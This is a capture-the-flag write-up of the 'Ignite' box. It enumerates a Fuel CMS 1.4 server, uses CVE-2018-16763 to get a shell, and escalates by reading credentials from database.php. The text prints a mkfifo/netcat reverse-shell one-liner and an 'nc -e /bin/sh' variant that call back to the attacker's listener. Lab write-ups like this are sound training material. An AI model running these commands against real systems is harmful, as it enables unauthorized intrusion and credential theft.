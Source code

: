 # Ignite

> Nashia Holloway | May 9th, 2020

## Enumeration

![](nmap.png)

Only port 80 is open.

![](fuel.png)

They're running version 1.4 of Fuel CMS.

![](pass.png)

They're even nice enough to give us the username and password to login.

## Initial Access

There's not much in the dashboard, so I searched for exploits against that version of fuel and got a hit (CVE-2018-16763). Changing some of the varaibles and running the script, we get a shell. But the shell suxs. I mean it works, but this is the ugliest shell I've ever seen. I would like a nicer shell.

**SHELL BEFORE**

![](ugly.png)

```
(in ugly shell, run):
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc tun0 1234 >/tmp/f
```

Set up a listener and reap the benefits. (Running `nc -e /bin/sh tun0 1234` didn't work because it wasn't the version that supports the `-e` option). Let's get a python shell while we're at it. `python -c 'import pty; pty.spawn("/bin/sh")'`

**SHELL AFTER**

![](pretty.png)

## Privilege Escalation

We need a way to get root. Looking back at the second item listed on the websites home page, "Install the database", it tells us where the usernames and passwords are being stored.

```
$ cd fuel/application/config
$ cat database.php
```

![](root.png)

Now we can get the root flag.

![](root2.png)


